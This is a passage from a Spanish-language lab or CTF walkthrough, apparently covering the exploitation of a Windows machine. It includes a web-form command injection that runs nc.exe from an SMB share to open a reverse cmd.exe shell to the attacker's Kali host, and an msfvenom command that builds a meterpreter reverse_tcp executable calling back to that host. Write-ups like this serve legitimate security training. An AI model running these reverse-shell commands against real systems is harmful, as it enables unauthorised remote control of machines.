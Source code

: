 - Nos vamos al navegador web y en el formulario de comandos escribimos lo siguiente donde la primera IP es la maquina Kali y la segunda IP también la de mi maquina Kali .
    
    `\\10.0.3.4\recurso\nc.exe -e cmd.exe 10.0.3.4 443`
    
    ![image.png](./imagenes/051a0b24-ccd8-44f9-bdaf-042afab08cf0.png)
    
    ![image.png](./imagenes/image%2068.png)
    
- Vamos a proceder a acceder desde una meterpreter ya que en esta ocasión no tenemos privilegios `nt authority\servicio de red.`
    
    En esta maquina Windows en concreto no tiene instaladas las utilidades **wget o curl** , las cuales nos hubieran permitido subir un archivo malicioso.
    
    - Creamos un archivo malicioso .exe
        
        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=444 -f exe -o shell.exe
        ```
        
        ![image.png](./imagenes/image%2069.png)
        